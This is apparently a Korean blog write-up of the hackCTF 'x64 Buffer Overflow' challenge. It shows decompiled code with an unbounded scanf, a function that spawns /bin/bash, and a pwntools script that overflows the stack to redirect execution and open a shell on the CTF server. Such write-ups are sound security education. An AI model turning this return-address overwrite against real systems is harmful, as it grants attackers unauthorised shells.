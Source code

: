 ```yaml
---
layout: post
title:  "[hackCTF]x64 Buffer Overflow"
date:   2020-02-18
---
```


hackCTF pwnable 다섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)


## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp); // stdin에서 문자열 형식으로 입력 받아 s에 저장
  v5 = strlen(&s); // s의 길이를 v5에 저장
  printf("Hello %s\n", &s, argv);
  return 0;
}
```
## ida - callMeMaybe
```c
int callMeMaybe()
{
  char *path; // [rsp+0h] [rbp-20h]
  const char *v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL); // 쉘을 띄울 수 있다!
}
```
<br>

정리해보자.<br><br>
***

| ret |           |
|:---:|:---------:|
| sfp |  (8byte)  |
| rbp |           |
| ... |           |
|  s  | rbp-0x110 |

***
<br>
callMeMaybe 함수를 실행시키면 쉘을 띄울 수 있다. 이전 문제와 동일한 방식으로 scanf를 통해 문제를 해결하자.<br><br>
목표 : ret을 callMeMaybe 함수의 주소로 덮기<br>
취약점 : scanf("%s", &s, envp)<br><br><br>
+) callMeMaybe 함수의 주소는 다음과 같다.

![0501](https://drive.google.com/uc?id=1LnLNJrmt7KXM1S5HHWFkw0vQywbEDzOd)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = "\x90"*0x118+p64(0x400606)

p.sendline(payload)

p.interactive()
```

## 결과
![0502](https://drive.google.com/uc?id=1rK_l0M2NmPspC1udiy0B72-BrBogAAN8)
